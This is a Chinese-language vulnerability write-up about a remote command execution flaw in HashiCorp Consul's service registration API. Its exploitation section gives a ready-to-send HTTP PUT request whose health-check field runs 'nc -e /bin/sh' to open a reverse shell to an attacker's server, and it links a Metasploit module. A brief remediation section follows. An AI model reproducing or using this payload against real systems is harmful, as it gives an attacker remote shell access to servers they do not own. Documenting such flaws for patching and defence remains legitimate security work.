

### 一 漏洞描述
2018年11月27日，Consul在官方博客中发布了关于Consul工具在特定配置下可能导致远程命令执行（RCE）漏洞的公告，并描述了防护该漏洞的配置方案。  
Consul是HashiCorp公司推出的一款开源工具，用于实现分布式系统的服务发现与配置。同其他分布式服务注册与发现的方案相比，Consul提供的方案更为一站式。Consul内置了服务注册与发现框架、分布一致性协议实现、健康检查、Key-Value存储、多数据中心方案，不再需要依赖其他工具（例如ZooKeeper等），使用方式也相对简单。  
Consul使用Go语言编写，因此具有天然的可移植性（支持Linux、Windows和Mac OS X系统），且安装包中仅包含一个可执行文件，便于部署，可与Docker等轻量级容器无缝配合。

### 二 漏洞利用
验证


利用
```
PUT /v1/agent/service/register HTTP/1.1
Host: 目标地址
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64)
X-Consul-Token: 
Content-type: application/json
Connection: close
Content-Length: 324
 
{
    "ID": "bpPeMfZuAN",
    "Name": "bpPeMfZuAN",
    "Address":"127.0.0.1",
    "Port":80,
    "check":{
        "Args": ["sh", "-c","nc -e /bin/sh vps_ip port"],
        "interval":"10s",
        "Timeout":"86400s"
    }
}
```
exp参考: https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/misc/consul_service_exec.rb


### 三 漏洞修复
1 禁用Consul服务器上的脚本检查功能  
2 对/v1/agent/service/register 禁止PUT方法

> 参考链接:   
> msf exp: https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/misc/consul_service_exec.rb  
> 阿里云公告: https://www.alibabacloud.com/help/zh/web-application-firewall/latest/rce-vulnerability-in-consul-service-apis    
> https://blog.csdn.net/qq_44159028/article/details/115870000  
> 官方修复文章: https://www.hashicorp.com/blog/protecting-consul-from-rce-risk-in-specific-configurations
